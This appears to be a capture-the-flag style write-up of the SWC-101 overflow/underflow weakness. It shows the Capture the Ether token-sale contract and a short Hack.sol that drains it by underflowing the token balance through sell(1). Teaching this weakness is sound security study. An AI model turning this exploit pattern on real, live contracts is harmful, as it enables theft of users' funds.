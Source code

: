 # SWC 101
Overflow and Underflow

### Example
## tokensalechallenge.sol

```solidity 
/*
 * @source: https://capturetheether.com/challenges/math/token-sale/
 * @author: Steve Marx
 */

pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] - numTokens >= 0);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}
```
Looking at the contract we can see that it is an older version of solidity
- where arithemetic underflow and overflow did not gave any errors, and 
- require logic `require(balanceOf[msg.sender] - numTokens >= 0)` indicates potential flawed logic/redundant check
> Point 33 [Security Pitfalls and Best Practices 101](https://secureum.substack.com/p/security-pitfalls-and-best-practices-101)

using these two flaws we can exploit the contract and drain the ETH from the contract with the following Hack.

## Hack.sol

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITokenSaleChallenge {
    function sell(uint256 numTokens) external;
}

contract Hack {
    ITokenSaleChallenge private target;

    constructor(address _target) {
        target = ITokenSaleChallenge(_target);
        target.sell(1);
    }
}
```
